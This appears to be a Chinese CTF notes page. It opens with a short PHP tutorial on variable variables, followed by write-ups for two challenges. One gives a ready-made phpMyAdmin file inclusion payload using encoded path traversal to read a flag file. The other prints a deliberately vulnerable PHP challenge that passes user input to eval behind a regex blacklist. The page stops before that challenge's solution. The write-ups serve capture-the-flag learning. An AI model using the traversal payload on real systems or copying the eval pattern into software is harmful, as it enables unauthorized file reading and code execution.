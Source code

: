 有时候使用可变变量名是很方便的。就是说，一个变量的变量名可以动态的设置和使用。一个普通的变量通过声明来设置，例如：

```
<?php$a = 'hello';?> 
```

一个可变变量获取了一个普通变量的值作为这个可变变量的变量名。在上面的例子中 *hello* 使用了两个美元符号（$）以后，就可以作为一个可变变量的变量了。例如：

```
<?php$$a = 'world';?> 
```

这时，两个变量都被定义了：$a 的内容是“hello”并且 $hello 的内容是“world”。因此，以下语句：

```
<?phpecho "$a ${$a}";?> 
```

与以下语句输出完全相同的结果：

```
<?phpecho "$a $hello";?> 
```

它们都会输出：hello world。

# [GWCTF 2019]我有一个数据库

首先用dirsearch扫描出 phpmyadmin 直接进入

发现能进去

然后没啥能看的 查看一下phpmyadmin版本百度搜索一下相关漏洞

发现该版本下有文件包含漏洞 利用现成payload

```
?target=db_datadict.php%253f/../../../../../../../../../flag 
```

# [GXYCTF2019]禁止套娃 WP

```
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?> 
```
